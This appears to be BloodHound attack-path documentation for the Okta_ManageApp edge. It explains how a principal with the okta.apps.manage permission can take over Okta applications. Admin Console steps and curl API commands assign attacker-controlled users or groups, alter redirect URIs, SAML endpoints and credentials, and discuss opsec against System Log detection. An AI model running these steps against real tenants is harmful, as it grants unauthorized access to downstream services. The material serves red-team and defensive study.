

## General Information

The traversable Okta_ManageApp edges correspond to the `okta.apps.manage` custom role permissions that allow a principal (user, group, or application) to fully manage Okta applications and their members.


```mermaid
graph LR
    u1("Okta_User john\@contoso.com")
    g1("Okta_Group App Operators")
    app1("Okta_Application GitHub")
    app2("Okta_Application Salesforce")
    u1 -- Okta_ManageApp --> app1
    g1 -- Okta_ManageApp --> app2
```

## Abuse Info

An attacker who controls the source principal can manage the destination application through custom-role application permissions such as `okta.apps.manage`. This is similar to `Okta_AppAdmin`, but it comes from a custom role and resource set rather than the built-in Application Administrator role. If the source is a group, compromise any group member first. If the source is an application, use that application's OAuth client authentication method to obtain a management API access token.

Using the Admin Console:

1. Authenticate as the source principal.
2. Open the destination application in the Admin Console or query it through the Okta Apps API.
3. Assign an attacker-controlled user or group to the application. This grants access to the downstream application when access is based on Okta assignment.
4. Set any app-specific assignment attributes needed to receive the desired downstream role.
5. Modify sign-on, provisioning, or credential settings where useful. For example, add an attacker-controlled redirect URI to an OIDC client, change a SAML ACS URL in a controlled test window, add group assignments, rotate client credentials, or update SCIM provisioning credentials.
6. Launch the application or use the modified application credentials to authenticate to the downstream service.

This edge can also be used to create follow-on Okta paths. For example, after modifying a service application, obtain or rotate credentials and then abuse any Okta admin role assigned to that application.

Using the Okta API:

1. Set the Okta org URL, a token for the source principal, the destination app ID, and the controlled user or group ID.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export TARGET_APP_ID="0oa..."
    export CONTROLLED_USER_ID="00u..."
    export CONTROLLED_GROUP_ID="00g..."
    ```

2. Assign a controlled user to the app.

    ```bash
    curl -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/users" \
      -d "{\"id\":\"$CONTROLLED_USER_ID\",\"scope\":\"USER\"}"
    ```

3. Or assign a controlled group to the app.

    ```bash
    curl -sS -X PUT \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/groups/$CONTROLLED_GROUP_ID" \
      -d '{}'
    ```

4. Retrieve and preserve the original app configuration before changing sign-on, provisioning, or credential settings.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID" > original-app.json
    ```

5. Apply the minimum configuration change required for the path, then verify the controlled user can launch the app or the modified credential can authenticate.

## Cleanup after Abuse

Cleanup restores the destination application's original assignments, SSO settings, provisioning configuration, mappings, and credentials, then removes downstream accounts or roles created by the abuse.

Cleanup using Admin Console:

1. Open the destination application in **Applications** > **Applications**.
2. Remove temporary user and group assignments.
3. Restore redirect URIs, SAML endpoints, sign-on settings, provisioning endpoints, attribute mappings, and credential settings.
4. Rotate or deactivate temporary client secrets, signing keys, and provisioning credentials.
5. Confirm downstream accounts or roles created by provisioning have been removed.

Cleanup using API:

1. Remove temporary user assignments.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/users/$CONTROLLED_USER_ID"
    ```

2. Remove temporary group assignments.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/groups/$CONTROLLED_GROUP_ID"
    ```

3. Use the Apps API to replace the app configuration with the original settings saved before abuse.
4. Use app credential endpoints to rotate or deactivate temporary credentials.
5. Query the app assignments and app configuration to confirm the temporary access and modified settings are gone.

## Opsec Considerations

Okta records application updates, assignment changes, client credential changes, and provisioning changes in the System Log. Relevant event types include `application.user_membership.add`, `application.user_membership.remove`, `group.application_assignment.add`, `group.application_assignment.remove`, `application.lifecycle.update`, `application.provision.user.sync`, `application.provision.group_membership.update`, `app.oauth2.credentials.lifecycle.create`, `app.oauth2.credentials.lifecycle.activate`, `app.oauth2.credentials.lifecycle.deactivate`, and `app.oauth2.credentials.lifecycle.delete`.

Modifying SSO endpoints or provisioning credentials is noisy and can break production authentication, so an attacker will usually prefer adding a narrow assignment or credential instead of replacing existing settings. The API path records caller, source IP, client, request URI, target app, and changed assignment or configuration fields.

## References

- [Okta custom role permissions](https://developer.okta.com/docs/api/openapi/okta-management/guides/permissions/)
- [Okta Application Users API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/ApplicationUsers/)
- [Okta Application Groups API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/ApplicationGroups/)
- [Okta Applications API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/Application/)
- [Okta client secret rotation](https://developer.okta.com/docs/guides/client-secret-rotation-key/main/)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
- [SpecterOps: Discovering Unexpected Okta Attack Paths with BloodHound](https://specterops.io/blog/2026/03/23/discovering-unexpected-okta-attack-paths-with-bloodhound/)
- [Eli Guy: Attack Techniques in Okta - Part 2 - Okta RBAC Attacks](https://xmcyber.com/blog/okta-rbac-attacks/)
